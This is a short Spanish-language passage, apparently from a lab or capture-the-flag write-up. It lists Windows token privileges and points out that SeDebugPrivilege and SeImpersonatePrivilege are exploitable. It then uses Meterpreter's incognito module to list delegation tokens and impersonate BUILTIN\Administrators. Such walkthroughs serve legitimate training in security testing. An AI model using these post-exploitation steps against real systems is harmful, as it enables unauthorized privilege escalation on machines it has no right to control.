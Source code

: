 ```
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```
hay 2 privilegios explotables habilitados (SeDebugPrivilege, SeImpersonatePrivilege)

En meterpreter cargamos el modulo incognito
```
load incognito
```
```
list_tokens -g
```
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

```
```
impersonate_token "BUILTIN\Administrators"
```
